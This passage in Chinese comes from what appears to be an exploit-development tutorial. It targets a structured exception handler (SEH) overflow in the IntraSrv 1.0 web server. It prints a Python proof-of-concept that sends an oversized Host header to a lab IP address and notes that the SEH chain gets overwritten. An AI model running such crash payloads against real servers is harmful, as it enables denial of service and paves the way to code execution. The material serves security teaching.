 接下来，让我们使用 Python 脚本向服务器发送一个恶意负载。当我们启动 IntraSrv 时，它会告诉我们它正在监听哪个端口和 IP 地址。

![](img/1f9728649f701816e2327084143ab88d.png)

现在是我们的剧本:

```
#!/usr/bin/python

import socket
from struct import *

victim_host = "10.0.2.15"
victim_port = 80

exploit_payload = "A" * 4000

http_request  = "HEAD / HTTP/1.1\r\n"
http_request += "Host:" + exploit_payload + "\r\n"
http_request += "User-Agent: firefox \r\n"
http_request += "If-Modified-Since: Wed \r\n\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

try:
	print("[*] Intrasrv webserver 1.0 SEH overflow POC\n")
	expl.connect((victim_host, victim_port))
	print("[*] Establishing a connection to the vicitm")
	expl.send(http_request)
	print("[*] Sending the payload")
	expl.close()
except:
	print("[!] Exploit failed to send")
```

当我们执行这个脚本时，我们可以看到免疫寄存器被覆盖，我们的 SEH 链被破坏:
